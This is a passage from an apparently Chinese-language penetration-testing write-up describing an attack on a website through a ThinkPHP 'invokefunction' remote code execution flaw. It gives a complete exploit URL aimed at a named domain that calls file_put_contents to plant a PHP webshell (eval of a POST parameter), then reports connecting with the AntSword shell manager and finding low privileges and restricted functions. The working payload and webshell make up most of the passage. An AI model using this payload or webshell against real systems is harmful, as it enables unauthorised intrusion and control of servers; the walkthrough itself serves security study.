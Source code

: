 [![](assets/1706145764-31b88dc4d8b791e59fdf3f57a5cb4b6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213543-2437341e-b92b-1.png)

发现代码被执行了，所以其实是可以拿 shell 的

这里我通过 file\_put\_contents 函数去写入 webshell

```plain
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_
contents&vars[1][]=a2cai.php&vars[1][]=%3C%3Fphp%20eval(%24_POST[1])%3B%3F%3E
```

上蚁剑然后连接成功！

[![](assets/1706145764-4a50e817564a0e1ab80af7748572d870.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213613-35f17566-b92b-1.png)

发现权限比较低，而且因为 disable\_functions 禁的比较全，所以也没办法直接执行系统命令
